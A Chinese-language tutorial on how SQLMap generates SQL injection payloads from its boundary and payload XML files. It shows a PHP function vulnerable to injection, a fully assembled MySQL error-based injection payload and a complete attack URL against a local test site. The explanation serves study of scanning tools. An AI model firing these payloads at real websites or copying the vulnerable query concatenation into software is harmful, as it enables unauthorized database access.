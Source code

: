 # SQLMap的前世今生（Part1）

0x00 前言
=======

* * *

谈到SQL注入，那麽第一时间就会想到神器SQLMAP，SQLMap是一款用来检测与利用的SQL注入开源工具。那麽SQLMap在扫描SQL的逻辑到底是怎样实现的呢，接下来就探讨下SQLMap的扫描逻辑，通过了解SQLMap的扫描逻辑打造一款属于自己的SQL扫描工具。

0x01 SQL扫描规则：
=============

* * *

要了解SQLMap的扫描规则，也就是Payload,那麽到底Payload是哪里来，是根据什么逻辑生成的呢，接下来必须先了解几个文件的，SQLMap的扫描规则文件位于\xml文件夹中，其中boundaries.xml与Payloads文件夹则为SQLMap的扫描规则所在，\xml\payloads中的6个文件，里面的6个文件分别是存放着不同注入手法的PAYLOAD。

那麽就必须了解两个格式，一是boundary文件，一是payloads。

例子：

```
<boundary>
    <level>1</level>
    <clause>1</clause>
    <where>1,2</where>
    <ptype>1</ptype>
    <prefix>'</prefix>
    <suffix> AND '[RANDSTR]'='[RANDSTR]</suffix>
</boundary>

```

1.  clause与where属性
    
    这两个元素的作用是限制boundary所使用的范围，可以理解成当且仅当某个boundary元素的where节点的值包含test元素的子节点，clause节点的值包含test元素的子节点的时候，该boundary才能和当前的test匹配，从而进一步生成payload。
    
2.  prefix与suffix属性
    

要理解这两个属性的作用，那麽就先利用一段代码去讲解。

```
function getattachtablebypid($pid) {
    $tableid = DB::result_first("SELECT tableid FROM ".DB::table('forum_attachment')." WHERE pid='$pid' LIMIT 1");
    return 'forum_attachment_'.($tableid >= 0 && $tableid < 10 ? intval($tableid) : 'unused');
}

```

通过代码我们可以知道pid参与了SQL语句的拼接，那麽如果我们输入的pid为' AND 'test' = 'test呢，那麽最终拼接起来的SQL语句应该为：

```
SELECT tableid FROM ".DB::table('forum_attachment')." WHERE pid='' AND 'test' = 'test' LIMIT 1

```

所以如果我们输入的是' AND 'test' = 'test，那麽最终拼接起来的SQL语句同样是合法的。那麽我们就可以把所测试的Payload放到prefix与suffix中间，使之最终的SQL合法，从而进行注入测试，所以通过了解，prefix与suffix的作用就是为了截断SQL的语句，从而让最终的Payload合法。

至此boundary文件的作用已经讲解完了，接下来就是payload的讲解了。

```
<test>
    <title>MySQL &gt;= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause</title>
    <stype>2</stype>
    <level>1</level>
    <risk>1</risk>
    <clause>1,2,3</clause>
    <where>1</where>
    <vector>AND (SELECT [RANDNUM] FROM(SELECT COUNT(*),CONCAT('[DELIMITER_START]',([QUERY]),'[DELIMITER_STOP]',FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)</vector>
    <request><!-- These work as good as ELT(), but are longer<payload>AND (SELECT [RANDNUM] FROM(SELECT COUNT(*),CONCAT('[DELIMITER_START]',(SELECT (CASE WHEN ([RANDNUM]=[RANDNUM]) THEN 1 ELSE 0 END)),'[DELIMITER_STOP]',FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)</payload><payload>AND (SELECT [RANDNUM] FROM(SELECT COUNT(*),CONCAT('[DELIMITER_START]',(SELECT (MAKE_SET([RANDNUM]=[RANDNUM],1))),'[DELIMITER_STOP]',FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)</payload>-->
    <payload>AND (SELECT [RANDNUM] FROM(SELECT COUNT(*),CONCAT('[DELIMITER_START]',(SELECT (ELT([RANDNUM]=[RANDNUM],1))),'[DELIMITER_STOP]',FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)</payload>
    </request>
    <response>
        <grep>[DELIMITER_START](?P&lt;result&gt;.*?)[DELIMITER_STOP]</grep>
    </response>
    <details>
        <dbms>MySQL</dbms>
        <dbms_version>&gt;= 5.0</dbms_version>
    </details>
</test>

```

1 title属性

```
title属性为当前测试Payload的标题，通过标题就可以了解当前的注入手法与测试的数据库类型。

```

2 stype属性

```
这一个属性标记着当前的注入手法类型，1为布尔类型盲注，2为报错注入。

```

3 level属性

```
这个属性是每个test都有的，他是作用是是限定在SQL测试中处于哪个深度，简单的来说就是当你在使用SQLMAP进行SQL注入测试的时候，需要指定扫描的level，默认是1，最大为5，当level约高是，所执行的test越多，如果你是指定了level5进行注入测试，那麽估计执行的测试手法会将超过1000个。

```

4 clause与where属性

```
test中的clause与where属性与boundary中的clause与where属性功能是相同的。

```

5 payload属性

```
这一属性既是将要进行测试的SQL语句，也是SQLMap扫描逻辑的关键,其中的[RANDNUM]，[DELIMITER_START]，[DELIMITER_STOP]分别代表着随机数值与字符。当SQLMap扫描时会把对应的随机数替换掉,然后再与boundary的前缀与后缀拼接起来,最终成为测试的Payload。

```

6 details属性

```
其子节点会一般有两个，其dbms子节所代表的是当前Payload所适用的数据库类型，当前例子中的值为MySQL，则表示其Payload适用的数据库为MySQL,其dbms_version子节所代表的适用的数据库版本。

```

7 response属性

这一属性下的子节点标记着当前测试的Payload测试手法。

```
    grep        ：报错注入
    comparison  ：布尔类型忙注入
    time        ：延时注入
    char        ：联合查询注入

```

SQLMAP当中的checkSqlInjection函数即是用这一属性作为判断依据来进入不同的处理分支。而且其中response属性中的值则为其SQL注入判断依据，就如当前的例子中，grep中的值为`[DELIMITER_START](?P&lt;result&gt;.*?)[DELIMITER_STOP]`,SQLMap会将[DELIMITER_START]与[DELIMITER_STOP]替换成Payload中所对应替换的值，然后利用所得到的对返回的页面信息进行正则匹配，如果存在在判断为当前存在SQL注入漏洞。

其中要注意的是,Payload中的字符串会根据当前Payload所适用的数据库类型对字符串进行处理，其处理的代码位于\plugins\dbms下对应数据库文件夹中的syntax.py脚本中。

![enter image description here](http://drops.javaweb.org/uploads/images/22d73cd6f20b0daa2fc159ea95549bac4a9967e7.jpg)

所以最终的payload是根据test的payload子节点和boundary的prefix（前缀）、suffix（后缀）子节点的值组合而成的，即：最终的`payload = url参数 + boundary.prefix+test.payload+boundary.suffix`

0x02 实例
=======

* * *

接下来以报错注入来实际讲解下Payload与boundary的使用。

上例子中的boundary元素中的where节点的值为1,2，含有test元素的where节点的值（1）,并且，boundary元素中的clause节点的值为1，含有test元素的where节点的值（1）,因此，该boundary和test元素以匹配。test元素的payload的值为：

```
AND (SELECT [RANDNUM] FROM(SELECT COUNT(*),CONCAT('[DELIMITER_START]',(SELECT (CASE WHEN ([RANDNUM]=[RANDNUM]) THEN 1 ELSE 0 END)),'[DELIMITER_STOP]',FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a)

```

之前已经介绍了最终的Payload是如何的一个格式,所以最后将其中的[RANDNUM]、[DELIMITER_START]、[DELIMITER_STOP]替换掉与转义之后。

则生成的payload类似如下：

```
[RANDNUM]           = 2214
[DELIMITER_START]   = ~!(转义后则为0x7e21)
[DELIMITER_STOP]    = !~(转义后则为0x217e)
Payload: ' AND (SELECT 2214 FROM(SELECT COUNT(*),CONCAT(0x7e21,(SELECT (CASE WHEN (2214=2214) THEN 1 ELSE 0 END)),0x217e,FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a) AND 'pujM'='pujM

```

如果http://127.0.0.1/search-result.php?keyword=&ad_id=3存在注入的话，那么执行的时候就会报如下错误：

```
Duplicate entry '~!1!~1' for key 'group_key'

```

根据之前的讲解，那麽最终于测试的URL如下

```
http://127.0.0.1/search-result.php?keyword=&ad_id=' AND (SELECT 2214 FROM(SELECT COUNT(*),CONCAT(0x7e21,(SELECT (ELT(2214=2214,1))),0x217e,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a) AND 'YmRM'='YmRM

```

如下为返回的页面信息

![enter image description here](http://drops.javaweb.org/uploads/images/7d09ccf3d40a959cc70d28747853b1c5f7f2aecf.jpg)

后根据grep中的正规来匹配当前页面。

```
<grep>[DELIMITER_START](?P&lt;result&gt;.*?)[DELIMITER_STOP]</grep>

```

而使用正则：`~!(?P<result>.*?)!~来匹配Duplicate entry '~!1!~1' for key 'group_key'`的结果为1,根据匹配的结果可以得出当前的页面确实存在着SQL注入。

0x03 总结
=======

* * *

通过SQLMap的扫描逻辑，我们可以了解到SQL注入的常规手法与实现，熟悉SQLMap的配置文件之后，自己就可以根据实际的情况对Payload与boundary进行修改，通过增加Payload与boundary来增强SQLMap的扫描规则，也可以利用其扫描规则来打造一款自己的SQL扫描工具。